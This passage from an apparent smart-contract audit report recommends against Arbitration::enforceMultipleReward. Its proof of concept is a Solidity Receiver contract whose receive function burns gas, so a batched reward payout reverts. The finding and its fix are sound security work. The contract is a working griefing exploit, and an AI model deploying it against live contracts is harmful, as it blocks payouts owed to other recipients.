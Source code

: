 ## Recommendations

I would recommend not using  `Arbitration::enforceMultipleReward`  at all. Especially in a live mainnet environment, debugging which address is causing the revert can be hard. If multiple whitehats colluded to do this attack, it could take several failed calls of  `Arbitration::enforceMultipleReward`  before removing all malicious addresses in an array. Sending a single reward during the arbitration at a time still allows for a whitehat to make this attack, but the attack is way less effective because the function call does not have the potential of having a hefty gas fee associated, and the arbiter or vault can quickly identify the address causing the revert. If  `Arbitration::enforceMultipleReward`  is still a function necessary for arbitration, it might make sense to have checks on whitehat addresses to prevent them from being other smart contracts. This wouldn't allow any code execution to cause transactions to revert.

## Proof of concept

The following is a PoC of the attack described above. This test was based on  `testArbSendsMultipleRewardsAndCloses`  in  `Arbitration.t.sol`  with slight changes to execute the attack. The first code snippet is the contract of the malicious whitehat that has a  `receive`  function that gets called through the execution of  `Arbitration::enforceMultipleRewards`  (more specifically  `VaultDelegate::sendReward`  within this  `Arbitration::enforceMultipleRewards`). A malicious whitehat could supply the address of this smart contract when deployed to do this griefing attack. The second code snippet is the test function that demonstrates the attack.

Attack Smart contract (Named  `Receiver.sol`):

```solidity

pragma solidity ^0.8.18;
import {console} from "../lib/forge-std/src/console.sol";

contract Receiver {
    event Received(address caller, uint amount, string message);
    event SenderAddress(address sender);

    mapping(uint => uint) public values;

    // Function that consumes a lot of gas by writing to storage many times
    function consumeALotOfGas(uint numberOfWrites) public {
        for (uint i = 0; i < numberOfWrites; i++) {
            // Writing to storage is costly in terms of gas
            values[i] = i;
        }
    }
    // The receive function is called when Ether is sent to the contract with no data
    receive() external payable {
        // slither-disable-next-line arbitrary-send-eth,low-level-calls
        this.consumeALotOfGas(1000);
    }

    function logSender() external {
        emit SenderAddress(msg.sender);
    }

    // Function to check the contract's balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```
